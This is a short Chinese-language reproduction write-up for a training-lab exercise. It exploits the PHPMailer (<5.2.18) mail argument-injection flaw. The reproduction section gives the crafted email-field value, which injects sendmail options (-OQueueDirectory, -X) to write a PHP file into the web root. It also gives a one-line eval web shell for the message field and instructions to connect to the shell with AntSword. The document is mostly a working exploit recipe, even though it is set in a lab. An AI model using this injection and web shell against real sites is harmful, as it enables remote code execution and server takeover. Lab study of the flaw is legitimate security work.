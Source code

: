 # 0x00 复现环境
使用复现环境：墨者学院->https://www.mozhe.cn/bug/detail/124

# 0x01 利用条件
无

# 0x02 影响版本
<5.2.18

# 0x03 漏洞复现
启动墨者学院的靶场环境，看到一个网站，点击底部的“Mail Contact”，进入“http://219.153.49.228:49754/mail.php”  
在name处随便输入比如“aaa”，在email处输入：  
```
"aaa". -OQueueDirectory=/tmp/. -X/var/www/html/a.php @aaa.com
```
在message处输入一句话木马：  
```
<?php @eval($_POST['a']); ?>
```
蚁剑链接http://219.153.49.228:49754/a.php ，成功拿到webshell，如下图  
![image](./0.png)

# 0x04 踩坑记录
坑1：上传完一句话木马后，页面会响应3-5分钟，响应时间较长

# 参考链接
https://www.jianshu.com/p/745c82d8b6e0
